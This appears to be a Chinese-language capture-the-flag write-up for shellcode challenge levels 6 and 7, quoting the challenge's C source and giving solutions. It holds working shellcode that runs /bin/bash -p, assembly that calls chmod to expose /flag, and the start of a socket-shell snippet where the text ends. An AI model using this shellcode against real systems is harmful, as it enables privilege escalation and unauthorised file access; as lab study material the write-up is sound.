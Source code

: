# level 6 在上题基础上 shellcode前4MB区域无写入权限
```basic
puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## 对寄存器操作实现 execve(/bin/bash -p）
```python
shellcode = b'\xeb"_j\x00h-p\x00\x00TZj\x00RWT^j\x00Zj;Xh\x0e\x05\x00\x00H\xff\x04$\xff\xe4\x90\xe8\xd9\xff\xff\xff/bin/bash\x00'
```
## 其他思路【待补充...】
# level 7 关闭标准流
> shellcode 正常执行，但是涉及到标准输入/标准输出等将无法成功. 【交互模式强制被关闭，直接获取 shell 或者 
> orw 将 flag 读到终端 均不可行】
> - 方法一：由于本来就有一个 hacker 权限的 shell，可以通过 shellcode 修改文件权限，然后直接 cat。

```c
puts("This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need");
puts("to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.\n");
assert(fclose(stdin) == 0);

puts("This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.\n");
assert(fclose(stderr) == 0);

puts("This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output.");
puts("You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.\n");
assert(fclose(stdout) == 0);
```
## 调用 chmod 修改 /flag 文件权限
```basic
int chmod(const char *path, mode_t mode);
```
```python
sh = asm("""
    lea rdi,[rip+flag]       # 
    mov rsi, 0777
    mov rax,90
    syscall
flag:
    .string "/flag"
""")

# -rwxrwxrwx 1 root root 57 Aug  6 07:52 /flag
```
```python
sh = asm(shellcraft.chmod('/flag',0o4))		
# 直接修改/flag文件权限为 -------r-- 1 root root 57 Aug  6 07:52 /flag
```
## *socket 连接 execve 调用的 shell
```
/* open new socket */
    /* open new socket */
    /* call socket('AF_INET', SOCK_STREAM (1), 0) */
    push 0x29 /* sys_socket */
```